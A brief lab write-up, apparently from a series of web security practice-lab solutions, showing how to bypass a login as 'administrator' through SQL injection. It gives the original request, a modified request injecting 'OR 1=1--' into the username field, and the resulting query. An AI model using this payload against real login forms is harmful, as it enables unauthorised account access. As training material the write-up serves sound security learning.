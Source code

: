 ## Lab #2: SQL injection vulnerability allowing login bypass

> This lab contains an SQL injection vulnerability in the login function.
>
> To solve the lab, perform an SQL injection attack that logs in to the application as the administrator user. 

Parameter:
```
csrf=XXXXXXXX&username=administrator&password=1
```

Modified:
```
csrf=XXXXXXXX&username=administrator'OR+1=1--&password=1
```

```
SELECT username, password WHERE username='administrator' OR 1=1 -- 'AND password='fahmi'
```

Next: [UNION attack](../03-union-attacks/README.md)
